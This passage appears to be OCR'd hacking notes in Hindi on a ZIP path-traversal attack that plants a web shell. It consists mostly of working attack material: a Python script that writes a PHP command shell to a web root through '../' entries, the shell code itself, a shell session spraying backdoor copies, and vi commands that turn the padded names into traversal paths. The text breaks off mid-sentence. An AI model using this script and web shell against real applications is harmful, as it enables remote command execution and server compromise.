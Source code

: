 यहां `malicious_file.exe` एक दुष्ट फ़ाइल है जो आप ज़िप में शामिल करना चाहते हैं। आप इस कोड को चलाने के बाद, `malicious.zip` नामक एक नया ज़िप फ़ाइल बनेगी जिसमें यह दुष्ट फ़ाइल शामिल होगी।
```python
#!/usr/bin/python
import zipfile
from cStringIO import StringIO

def create_zip():
f = StringIO()
z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
z.writestr('../../../../../var/www/html/webserver/shell.php', '<?php echo system($_REQUEST["cmd"]); ?>')
z.writestr('otherfile.xml', 'Content of the file')
z.close()
zip = open('poc.zip','wb')
zip.write(f.getvalue())
zip.close()

create_zip()
```
दूरस्थ कमांड निष्पादन को प्राप्त करने के लिए मैंने निम्नलिखित कदम उठाए:

1. एक PHP शैल बनाएं:
```php
<?php
if(isset($_REQUEST['cmd'])){
$cmd = ($_REQUEST['cmd']);
system($cmd);
}?>
```
2. "फ़ाइल स्प्रे" का उपयोग करें और एक संपीड़ित ज़िप फ़ाइल बनाएं:
```text
root@s2crew:/tmp# for i in `seq 1 10`;do FILE=$FILE"xxA"; cp simple-backdoor.php $FILE"cmd.php";done
root@s2crew:/tmp# ls *.php
simple-backdoor.php  xxAxxAxxAcmd.php        xxAxxAxxAxxAxxAxxAcmd.php        xxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php
xxAcmd.php           xxAxxAxxAxxAcmd.php     xxAxxAxxAxxAxxAxxAxxAcmd.php     xxAxxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php
xxAxxAcmd.php        xxAxxAxxAxxAxxAcmd.php  xxAxxAxxAxxAxxAxxAxxAxxAcmd.php
root@s2crew:/tmp# zip cmd.zip xx*.php
adding: xxAcmd.php (deflated 40%)
adding: xxAxxAcmd.php (deflated 40%)
adding: xxAxxAxxAcmd.php (deflated 40%)
adding: xxAxxAxxAxxAcmd.php (deflated 40%)
adding: xxAxxAxxAxxAxxAcmd.php (deflated 40%)
adding: xxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
adding: xxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
adding: xxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
adding: xxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
adding: xxAxxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
root@s2crew:/tmp#
```
3. हेक्स एडिटर या वीआई का उपयोग करें और "xxA" को "../" में बदलें, मैंने वीआई का उपयोग किया:
```text
:set modifiable
:%s/xxA/..\//g
:x!
```
केवल एक कदम शेष रह गया: ZIP फ़ाइल अपलोड करें और ऐप्लिकेशन को इसे डीकंप्रेस करने दें! यदि यह सफल होता है और वेब सर्वर को निर्दिष्ट निर्देशिकाओं में लिखने के लिए पर्याप्त अधिकार होते हैं, तो सिस्टम पर एक साधारण ओएस कमांड निष्पादन शैली होगी:
